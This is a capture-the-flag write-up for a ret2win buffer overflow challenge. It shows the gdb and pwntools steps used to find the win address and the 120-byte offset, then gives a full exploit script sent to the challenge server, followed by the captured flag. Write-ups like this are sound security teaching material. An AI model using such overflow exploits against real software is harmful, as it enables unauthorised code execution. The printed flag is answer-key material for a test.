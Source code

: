 <img src="https://github.com/raul-dunca/assets/blob/main/.images_CyberStudents-advent-of-ctf2024/day10_description.png">

This was a classical ret2win, using dogbolt I could see the win and main functions:

<img src="https://github.com/raul-dunca/CyberStudents-advent-of-ctf2024/blob/main/.assets/day_10_info.png">

Here it can be seen that the `memset` function sets the buffer of var_78 to 100 bytes and then the read function reads 256 bytes, so here is a buffer overflow. And since there is a win function, I need to somehow call it. It can be also seen that the return address of the main function is printed in the end, if I could overwrite it to the address of the win function, the main function will go to the win function, thus executing it. First, I need to find the address of the win function. I used gdb with the `info functions` command, it can be seen:

```bash
0x00000000004011f6  win
```

Now, the only information needed is the offset, basically we need 100 bytes to fill var_78 + some bytes to overwrite the main return address. For an easy way to find the whole offset, I used:

```python
from pwn import *

payload=cyclic(200)
print(payload)
```

Which generates a payload of 200 bytes and I gave it as input to the binary file and use gdb to look at the value of RBP, which was  `0x6261616562616164 ('daabeaab')`. Then I found the offset using: 

```python
from pwn import *

print(cyclic_find(0x6261616562616164))
```

Which prints 112 and I need to add 8 bytes (the size of RBP itself), so the total offset is 120. Finally, I created the exploit script:

```python
from pwn import *

target_host = 'ctf.csd.lol'
target_port =  4003

win_address = 0x4011f6

payload = b'A' * 120
payload += p64(win_address)

conn = remote(target_host, target_port)
conn.recvuntil("enter your wish:")
conn.sendline(payload)
conn.interactive()
```

`csd{Br0uGH7_t0_YOU_8y_W15H_D0t_CoM}`

